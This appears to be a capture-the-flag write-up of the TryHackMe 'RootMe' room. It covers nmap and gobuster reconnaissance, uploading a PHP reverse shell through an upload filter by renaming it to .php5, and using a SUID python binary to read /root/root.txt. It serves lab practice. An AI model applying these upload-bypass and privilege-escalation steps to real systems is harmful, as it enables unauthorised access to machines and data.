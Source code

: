 https://tryhackme.com/r/room/rrootme

current ip 10.10.221.141

##### Nmap
`nmap -sV -A -p- 10.10.22.112`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 11:45 CEST
Nmap scan report for 10.10.22.112
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.25 seconds
```

##### Enumeration
`gobuster dir -u http://10.10.22.112 -w /usr/share/wordlists/dirbuster

Found /uploads and /panel interresting

##### The payload
Uploaded a php reverse shell using .php5 to bypass the filter (tried magic number too)
##### User flag is in /var/www

##### SUID check
`find / -perm /4000 2>/dev/null` found `/usr/bin/python` as binary executed as root
##### Privilege escalation
###### Using bash command execution
creating a script.py file in /tmp
```python
import subprocess

subprocess.call(["cat","/root/root.txt"])
```

